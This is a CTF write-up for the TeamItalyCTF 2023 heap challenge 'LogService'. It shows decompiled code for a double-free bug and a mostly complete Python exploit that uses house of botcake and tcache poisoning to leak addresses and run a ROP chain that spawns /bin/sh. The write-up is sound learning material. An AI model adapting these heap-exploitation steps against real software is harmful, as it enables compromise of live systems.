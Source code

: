 # TeamItalyCTF 2023

## [pwn] LogService (13 solves)
Log requests and save it with this fast and safe Log server

This is a remote challenge, you can connect with:

nc log.challs.teamitaly.eu 29006

Author: Riccardo Sulis <@ricchi24>

## Analyzing the binary

the program is simple, allows to add, remove, view and save requests like any standard heap challenge. 

By analyzing the "remove_request" function we can see the bug that allows to duplicate a pointer in the array it remains accessible because n_requests isn't decremented.
```
void __fastcall remove_request()
{
  unsigned int ptr; // [rsp+0h] [rbp-10h] BYREF
  int i; // [rsp+4h] [rbp-Ch]
  unsigned __int64 v2; // [rsp+8h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  fread(&ptr, 4uLL, 1uLL, stdin);
  if ( ptr < n_requests )
  {
    free(*((void **)requests + ptr));
    for ( i = ptr; i < n_requests - 1; ++i )
      *((_QWORD *)requests + i) = *((_QWORD *)requests + i + 1);
    send_message(0LL, 2LL, "OK");
  }
  else
  {
    send_message(1LL, 11LL, "invalid idx");
  }
}
```

we can notice it in gdb too by adding 3 requests and remove the first one.
```
pwndbg> x/3gx 0x55da9e164330
0x55da9e164330: 0x000055da9e164370      0x000055da9e164400
0x55da9e164340: 0x000055da9e164400
pwndbg> 
```

## Exploiting the bug
To exploit the double free there are 2 ways "fastbin attack" or "house of botcake", i prefer the last one because is stronger.
first of all i leaked heap then exploited `house of botcake` and leaked libc too.
```py
add_request(0x80, b"a"*0x80)
add_request(0x80, b"a"*0x80)
remove(0)
remove(0)
heap = decrypt(u64(show(0)[:8])) - 0x2a0
#print(hex(heap))
for i in range(12):
    add_request(0x100, b"a"*0x100)


for i in range(7):
    remove(5)

remove(13)
lib = u64(show(13)[:8])-0x219ce0
libc.address = lib
#print(hex(lib))

remove(5)
add_request(0x100, b"a"*0x100)
remove(13)
```

here there again 2 ways to exploit: angry fsrop or leaking stack to rop.
I went for the second one.
Leaking stack is a bit hard because you can't just allocate on `environ` and read it but you have to allocate on array of buffer write the pointer and then use `show` function.

```
k = (heap + 0x11b0)>>12 # key
chunks = heap + 0x1560-0x90 # array of buffer
big_chunk = heap + 0x10f0 # overlapping chunk
victim_chunk = heap + 0x11b0 # overlapped chunk

payload = cyclic(0xb0) + p64(0) + p64(0x111) # size
payload += p64((chunks)^k) # fwd
payload += b"A"*(0x1c0-len(payload)) # offset
add_request(0x1c0, payload)
#print(hex(big_chunk))

add_request(0x100, b"a"*0x100)

payload = b"\x00"*0x88 #offset
payload += p64(0xa1) # size 
# buffer i need
payload += p64(libc.sym["environ"]) 
payload += p64(big_chunk)
payload += p64(big_chunk)
payload += p64(victim_chunk)
payload += b"A"*(0x100-len(payload)) # offset
add_request(0x200, b"a"*0x200) # this is to don't reallocate array while writing on it 
add_request(0x100, payload)

stack = u64(show(0)[:8])
```

Now i only need to repeat exploit to allocate a chunk on the stack and rop. To exploit again i free the overlapping chunks and reallocate them.
```
rbp = stack-0x148
payload = cyclic(0xb0) + p64(0) + p64(0x111)
payload += p64((rbp)^k)# fwd
payload += b"A"*(0x1c0-len(payload))
add_request(0x1c0, payload)
add_request(0x100, b"a"*0x100)
rop = ROP(libc)
chain = p64(rop.ret.address) + p64(rop.rdi.address) + p64(next(libc.search(b"/bin/sh"))) + p64(libc.sym["system"])
chain += b"a"*(0x100-8-len(chain))
add_request(0x100, b"a"*8+chain)

sl(b"cat flag")

io.interactive()
```
